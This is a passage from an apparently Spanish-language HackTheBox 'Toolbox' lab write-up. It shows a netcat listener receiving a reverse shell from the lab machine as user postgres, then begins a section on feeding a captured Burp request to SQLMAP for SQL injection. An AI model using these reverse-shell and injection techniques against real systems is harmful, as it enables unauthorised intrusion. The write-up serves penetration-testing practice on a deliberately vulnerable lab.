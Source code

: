 <img src="/assets/images/htb-writeup-toolbox/Captura14.png">
</p>

```bash
nc -nvlp 443                                                  
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.236] 50059
bash: cannot set terminal process group (4101): Inappropriate ioctl for device
bash: no job control in this shell
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ whoami
whoami
postgres
```

Excelente, puedes obtener una shell interactiva, pero debo advertirte que conectarte a la máquina víctima de esta forma es algo inestable y puede desconectarse, por lo que yo recomiendo la segunda forma por ser más estable.

<h2 id="SQL">Conectandonos de Manera Remota con SQLMAP</h2>

Para utilizar **SQLMAP**, necesitamos la petición web que podemos copiar de **BurpSuite**, así que vamos a usar la primera petición, pero vas a cambiar la comilla simple por **admin** porque si no la petición por **SQLMAP** fallara:
```html
POST / HTTP/1.1
Host: admin.megalogistic.com
Cookie: PHPSESSID=4721807843bbe54fe5b1d3dde0f6855d
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://admin.megalogistic.com
Referer: https://admin.megalogistic.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```